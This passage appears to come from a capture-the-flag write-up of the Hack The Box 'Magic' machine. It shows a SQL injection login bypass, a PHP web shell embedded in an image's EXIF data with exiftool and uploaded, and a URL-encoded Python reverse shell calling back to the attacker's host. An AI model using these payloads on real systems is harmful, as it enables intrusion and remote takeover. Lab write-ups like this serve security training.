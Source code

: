 ```shell 
Cookie: PHPSESSID=uvlaujlhtvvc6jtl1cgg6r0qin
Upgrade-Insecure-Requests: 1

username=admin' or 1=1;#&password=admin
```
The injection had worked, resulting in a successful login and redirection to 
[http://10.10.10.185/upload.php](http://10.10.10.185/upload.php).

# User Shell
## Initial Foothold
The page that had been presented, upon login, had an interface to upload images. Changing the extension of a PHP reverse
shell to png did not work as there are some checks employed on the server side. Google-Fu on ways to upload shells
through images had led to **exiftool**[^f2]. A PHP code can be injected into an image file by adding a new-tag 
containing the PHP code into the EXIF data of the image[^f3].
A PHP code that executes commands on the target was injected into an image file (command.png), using *exiftool* as 
```exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' command.png```. The file was then renamed as 
**command.php.png** and uploaded onto target.
```shell
[_4m0r@manjaro Magic]$ exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' command.png  
    1 image files updated 
[_4m0r@manjaro Magic]$ mv command.png command.php.png 
[_4m0r@manjaro Magic]$ l 
total 132 
drwxr-xr-x 2 _4m0r _4m0r  4096 Aug  5 19:00 NmapXml 
-rw-r--r-- 1 _4m0r _4m0r  3870 Aug  5 19:02 recon.log 
-rw-r--r-- 1 _4m0r _4m0r  6411 Aug  5 20:56 reverse.png 
-rw-r--r-- 1 _4m0r _4m0r 57317 Aug  5 20:58 command.png_original 
-rw-r--r-- 1 _4m0r _4m0r 57369 Aug  5 20:58 command.php.png
```
Since the location of the image files had been already identified in the Web Service Enumeration section, 
commands were executed on the target by visiting the url along with the command in the **cmd** parameter.
```shell 
view-source:http://10.10.10.185/images/uploads/command.php.png?cmd=id
---SNIP---
(tEXtCommentuid=33(www-data) gid=33(www-data) groups=33(www-data)
---SNIP---
```
The reverse shells presented on **pentestmonkey**[^f4] were tried to get a reverse shell and the one had that worked was 
a *python reverse shell*. The final URL that had sent the reverse shell port to 9095 of the attacking host is given 
below.
```html
http://10.10.10.185/images/uploads/command.php.png?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.186%22,9095));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
Upon visiting the URL a reverse shell had been received on the netcat listener, on the attacking host from the user
**www-data**. However, the user had no access to the *user.txt* file on */home/theseus*.
```shell 
[_4m0r@manjaro Magic]$ nc -nvlp 9095 
Connection from 10.10.10.185:32840 
/bin/sh: 0: can't access tty; job control turned off 
$ python3 -c "import pty;pty.spawn('/bin/bash');" 
```
